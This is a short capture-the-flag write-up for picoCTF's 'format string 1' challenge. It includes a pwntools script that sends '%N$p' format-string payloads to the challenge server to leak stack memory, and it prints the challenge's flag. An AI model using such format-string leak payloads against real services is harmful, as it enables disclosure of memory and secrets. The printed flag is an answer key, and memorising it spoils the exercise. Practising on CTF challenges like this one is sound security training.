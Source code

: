 # format string 1

## Challenge Description

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

Download the binary [here](https://artifacts.picoctf.net/c\_mimas/81/format-string-1).\
Download the source [here](https://artifacts.picoctf.net/c\_mimas/81/format-string-1.c).

Additional details will be available after launching your challenge instance.

***

## Solution



```python
from pwn import *

for i in range(20):
    p = remote('mimas.picoctf.net', 50154, level='error')

    p.recvuntil(b"Give me your order and I'll read it back to you:")

    inp = b"%" + str(i).encode("utf-8") + b"$p"

    print(f"Input: {inp}")
    p.sendline(inp)

    try:
        lines = p.recvlines(2)
        try:
            print(p64(int(lines[1].decode("utf-8").split()[-1], 16)))
        except ValueError:
            print(lines[1].decode("utf-8"))

    except EOFError:
        pass

    p.close()

    print("=" * 50)

```



<figure><img src="../../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

Flag: `picoCTF{4n1m41_57y13_4x4_f14g_9135fd4e}`
